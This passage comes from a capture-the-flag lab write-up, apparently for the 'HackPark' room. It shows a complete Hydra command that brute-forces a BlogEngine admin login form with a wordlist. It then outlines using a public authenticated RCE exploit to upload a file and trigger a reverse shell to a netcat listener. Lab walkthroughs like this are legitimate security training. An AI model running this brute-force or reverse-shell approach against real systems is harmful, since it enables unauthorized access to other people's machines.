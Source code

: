 Then, I'll try to attack it like this :

```text
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.106.193 http-post-form "/Account/login.aspx?ReturnURL=%2fadmin:__VIEWSTATE=Q6%2Fwyy29Lyg61L12FTfXHvmaqgecBgtXUIRuiIVZJcFGpkb5tUJh93nSVJyuTgOfHtyLi9OgrKHFNl1seijcfd5djPWqvYuL6snvmS5V63eSntNGRbmzESEkm6ktoT2Dte8ynazWqXYY2eHuMMAEfJW605kE5c0VpnhTqNIq0L2E%2FkNX&__EVENTVALIDATION=gvR4CPW1DPVTT4Sm1GtfP5izsS5fJPp9bKo0SKI3XahFdVSdCQszWrKRTgWPFKxEICXK4t8lOn0TU0fheh7qDW4tv5IcHTzcIQ3ZVX8Mup8bVrtQVspuQDJhG%2B8j5lpl2zcnQjaPXY%2FfwjBMZou39tlG7J8yzxpVlOiY%2BkR3Vd0caNnr&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:F=Login failed" -vV
```
After a few seconds, with a good wordlist, it will find the password :

![HackPark Hydra Pass](/images/2021/02/HackPark_Hydra_Pass.png)

It is time to play with our Authenticated RCEs!

## Exploitation

### Getting initial shell
This [RCE](https://www.exploit-db.com/exploits/46353) seems to apply to our target and is well written, it explains step by step how to exploit it :

0. Setup `netcat` listener on our attacking box ;
1. We create a file called `PostView.ascx` and modify it with the IP and port of our attacking box ;
2. Upload it ;
3. Visit URL to trigger to remote shell.

And it worked :

![HackPark Initial Shell](/images/2021/02/HackPark_Initial_Shell.png)

Unfortunately, we are not `SYSTEM`. Like we guessed during recon, we'll have to elevate our priv.
